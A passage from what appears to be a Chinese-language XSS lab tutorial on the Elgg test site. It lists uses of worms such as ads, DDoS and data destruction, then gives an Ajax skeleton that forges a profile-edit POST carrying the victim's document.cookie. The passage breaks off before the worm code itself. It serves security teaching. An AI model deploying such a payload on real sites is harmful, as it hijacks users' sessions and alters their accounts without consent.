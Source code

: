 蠕虫可以用来打广告、刷流量、挂马、恶作剧、破坏网上数据、实施 DDoS 攻击等等。

#### XSS 蠕虫的学习

首先我么需要理解一下 Ajax 框架。框架代码如下：

```
 var Ajax=null;
    // 构建 http 请求的头信息
    Ajax=new XMLHttpRequest();
    Ajax.open("POST","http://www.xsslabelgg.com/action/profile/edit",true);
    Ajax.setRequestHeader("Host","www.xsslabelgg.com");
    Ajax.setRequestHeader("Keep-Alive","300");
    Ajax.setRequestHeader("Connection","keep-alive");
    Ajax.setRequestHeader("Cookie",document.cookie);
    Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
    // 构建 http 请求内容。 内容的格式可以从浏览器插件 LiveHTTPHeaders 中知道长什么样
    var content="name=...&company=&..."; // 这是你需要填写的内容
    // 发送 http POST 请求。
    Ajax.send(content); 
```

我们创建一个 test.js 的文件；这个文件中是上面的 Ajax 框架：

```
 sudo vim test.js 
```

![图片描述信息](img/userid9094labid937time1430793258202.jpg)

然后我们在创建一个 test1.js 的文件，写一个 xss 蠕虫代码：

```
 sudo vim test1.js 
```
